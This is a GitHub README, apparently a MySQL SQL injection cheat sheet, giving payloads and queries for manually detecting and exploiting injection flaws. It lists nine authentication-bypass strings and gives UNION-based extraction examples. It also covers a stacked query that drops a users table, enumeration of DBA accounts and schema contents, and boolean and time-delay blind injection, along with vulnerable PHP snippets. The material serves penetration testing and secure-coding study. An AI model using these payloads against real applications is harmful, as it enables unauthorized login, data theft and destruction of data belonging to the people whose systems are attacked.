 # MySQL-SQL-Injection-Cheatsheet
Tips for manually detect &amp; exploit SQL injection Vulnerability : MySQL

# Comment in MySQL <br>
1.  \# <br>
2.  -- (After double dash put space) <br>
3.  /\*\*/  <br>

Ex: SELECT * from users/**/WHERE username='rk' AND password='123'; /*SQL keyword is case insansitive */  <br>
 
# MySQL LIMIT Clause  <br>
1. The LIMIT clause is used to specify the number of records to return.  <br>

Ex: SELECT * FROM users where username='' or 1=1 LIMIT 1; /*Without limit keyword it will return multiple result. it will help in auth bypass*/  <br>
  
# MySQL UNION Operator  <br>
1. The UNION operator is used to combine the result-set of two or more SELECT statements.  <br>
    a. Every SELECT statement within UNION must have the same number of columns.  <br>
    b. The columns must also have similar data types.  <br>
    c. The columns in every SELECT statement must also be in the same order.  <br>
 
 Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password'; /* Select from same table */  <br>
 
 Ex 2: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password' FROM hack.users;  /* Select from different DB and table */  <br>
  
# MYSQL Stack query <br>
1. MySQL does not support stack query with PHP, ASP.NET, Java <br>
Ex: SELECT * FROM products WHERE id = 1; DROP users-- /* stack query example */ <br>
  
# Substring  <br>
1. SUBSTRING('MySQL', 3, 2)  <br>

# String without quote(' or ") <br>
1. using CONCAT function <br>
Ex: SELECT CONCAT(CHAR(77),CHAR(89),CHAR(83),CHAR(81),CHAR(76)); /* return MYSQL string */  <br>

2. using hex value <br>
Ex: SELECT 0x4d7953514c;  /* return MYSQL string */  <br>

# Database version <br>
1. SELECT @@version <br>

# Current Database <br>
Ex: SELECT database(); <br>

# Current Database User <br>
Ex 1: SELECT user(); <br>
Ex 2:SELECT system_user(); <br>

# List DBA account <br>
Ex: SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; <br>

# Database contents <br>
1. Selecting all the tables in MySQL along with DB <br>
Ex: SELECT * FROM information_schema.tables; <br>

2. electing all the columns in perticular table <br>
Ex: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE_NAME'; <br>
# Order by <br>
1. The ORDER BY keyword is used to sort the result-set in ascending or descending order. But these keywords are used to identify no of columns present in table. <br>
Ex: SELECT * FROM Customers ORDER by 7; /* if columns are less than 7 in the table. query gives SQL error. Check on less than 7 values until error resolved.  */ <br>

# Time Delay <br>
Ex 1: SELECT sleep(10)  /* Sleep for 10 sec */ <br>

Ex 2: SELECT IF(CONDITION-HERE,sleep(10),'a'  /* Sleep for 10 sec if codition is True*/ <br>

# Detecting SQL Injection <br>
Case 1: When source code is available. <br>

Try to find out dynamic query where user inputs are concatenating to SQL query without/partial sanitizing user's input. Some time developer does mistake to concatenate user input into query while using parameterize SQL query. <br>
Ex 1: <br>
$username = $_POST["username"]; <br>
$password = $_POST["password"]; <br>
$sql="SELECT * FROM users WHERE username = '$username' AND password = '$password'"; <br>
$result = mysql_query($sql, $link); <br>
<br>

Ex 2: parameterized query <br>
$firstname = $_POST["firstname"]; <br>
$lastname = $_POST["lastname"]; <br>
$email = $_POST["email"]; <br>

$stmt = $conn->prepare("INSERT INTO MyGuests (firstname, lastname, email) <br>
VALUES ($firstname, :lastname, :email)"); /* Userinput "firstname" is directly concatenated into quey. So snippet is vulnerable to SQL Injection */  <br>
$stmt->bindParam(':lastname', $lastname); <br>
$stmt->bindParam(':email', $email); <br>
<br>

Case 2: Black box error based SQL Injection <br>
1. single quote('), double quote("), and(&), semicolon(;), double dash(--) any character that break the SQL syntax. SQL server return Syntex error to end user. <br>
Ex : $sql="SELECT * FROM users WHERE username = ''' AND password = '$password'";  /* gives syntax error */ <br>
  
Case 3. Blind SQL Injection (Conditional) <br>
1. App return data based on True/False condition <br>
Ex 1: "SELECT * FROM books WHERE bookid = -2 or 2>1# <br>

Ex 2: "SELECT * FROM books WHERE bookid = -2 or 2>1 LIMIT 1# /*Return 1st result only*/ <br>
<br>

Case 4: Blind SQL Injection (Time delay) <br>
1. App return data after delaying certain time <br>
Ex 1: "SELECT * FROM books WHERE bookid = -2 or sleep(10)#; <br>

2. Condition time delay <br>
Ex 2. SELECT IF(1=1,sleep(10),'a'); <br>

# Authentication Bypass <br>
1. admin' #  /*when user is admin */ <br>
2. admin' -- /*space after double dash*/ <br>
3. admin' or 1=1 # <br>
4. admin' and 1=1 # <br>
5. ' or 2>1 #  /*when username is not known*/ <br>
6. " or 2<1 #   /*When user input is quoted under double dash*/ <br>
7. ' or 1=1 LIMIT 1 # <br>
8. ' | 1=1 # <br>
9. ' & 2=2 # <br>

# Data Exfiltration
Coming------
    
